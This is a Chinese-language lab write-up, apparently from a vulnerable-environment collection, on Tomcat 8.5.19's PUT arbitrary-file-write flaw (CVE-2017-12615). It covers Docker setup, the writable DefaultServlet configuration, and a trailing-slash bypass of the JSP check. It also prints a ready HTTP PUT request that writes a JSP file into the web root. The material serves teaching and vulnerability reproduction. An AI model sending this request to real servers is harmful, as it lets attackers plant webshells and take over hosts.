

# Tomcat PUT方法任意写文件漏洞（CVE-2017-12615）

Tomcat版本：8.5.19

## 环境搭建

```
docker-compose build
docker-compose up -d
```

运行完成后访问`http://your-ip:8080`即可看到Tomcat的Example页面。

## 漏洞原理

参考：

- http://wooyun.jozxing.cc/static/bugs/wooyun-2015-0107097.html
- https://mp.weixin.qq.com/s?__biz=MzI1NDg4MTIxMw==&mid=2247483659&idx=1&sn=c23b3a3b3b43d70999bdbe644e79f7e5
- https://mp.weixin.qq.com/s?__biz=MzU3ODAyMjg4OQ==&mid=2247483805&idx=1&sn=503a3e29165d57d3c20ced671761bb5e

漏洞本质Tomcat配置了可写（readonly=false），导致我们可以往服务器写文件：

```
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

虽然Tomcat对文件后缀有一定检测（不能直接写jsp），但我们使用一些文件系统的特性（如Linux下可用`/`）来绕过了限制。

## 漏洞复现

直接发送以下数据包即可在Web根目录写入shell：

```
PUT /1.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

shell
```

如下：


